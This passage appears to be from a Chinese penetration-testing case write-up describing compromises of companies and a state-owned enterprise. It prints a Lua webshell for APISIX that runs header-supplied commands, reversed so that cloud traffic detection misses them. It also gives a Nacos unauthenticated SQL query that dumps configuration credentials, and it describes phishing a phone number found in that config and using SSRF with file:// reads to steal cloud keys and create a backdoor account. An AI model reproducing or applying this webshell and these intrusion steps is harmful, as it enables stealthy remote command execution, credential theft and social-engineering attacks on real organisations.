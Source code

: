 
![img](assets/1701668693-c1e4daeb39445f30876d755e84c68ca7.png)

但是后面执行命令，有的时候会被阿里云给拦掉，于是构造 lua 脚本时把传参和命令输出做了倒转，防止被流量检测到

```lua
local file=io.popen(string.reverse(ngx.req.get_headers()['Authenication']),'r')
local output=file:read('*all')
file:close()
ngx.say(string.reverse(output))
```

由于该 apisix 集群部署管理了 28 个子域的服务，所以成功拿下 28 个子域 Rce

![img](assets/1701668693-0c3b8a96828ba165972c37a64a120f4f.png)

## 案例三、某开发商 Nacos 未授权访问读取配置信息到精准钓鱼进入内网

利用 nacos 未授权访问，从 CONFIG.INFO 读取 config 信息

很幸运，其中包含公有云数据库凭据

```php
/nacos/v1/cs/ops/derby?sql=select+*+from+CONFIG_INFO+st
```

![img](assets/1701668693-56429475b735d0fc277af6213bf036cd.png)

可惜试了一下都配了策略，没法外网直接连过去

但是...却发现了 config 信息中，出现了某系统的一个手机号  
![img](assets/1701668693-5295e52571b1409f3a94c8c220ee8efe.png)

随后加上微信钓鱼，以系统升级为由，成功拿到权限

![img](assets/1701668693-5b371abaf19387b868743d5d57279f17.png)

![image.png](assets/1701668693-acee69a00d99fa1c893ae9f3af2ca315.png)

## 案例四、某国企 - 从一个任意文件读取到 SSO 沦陷

某国企子域的资产，发现使用了 kkfileview 开源项目

翻了一下历史 issue，存在全回显的 ssrf，在目标上验证成功  
![img](assets/1701668693-5bfa9f69992f42927e47b0bcb10b5bcd.png)

![image-20231120151135911](assets/1701668693-2738968ab660b71c06a71c9c8c4a886a.png)

同时很幸运，这个点支持 file://协议，随后通过 file 协议读取到网站配置文件，拿到了目标的 AK,SK

![img](assets/1701668693-5715dda6dfc6876e41fc3b20244934a6.png)

使用阿里云的 Cli 创建后门账户，接管目标公有云  
![img](assets/1701668693-dbf08a6dddfa0ee9388a009eaf00505e.png)
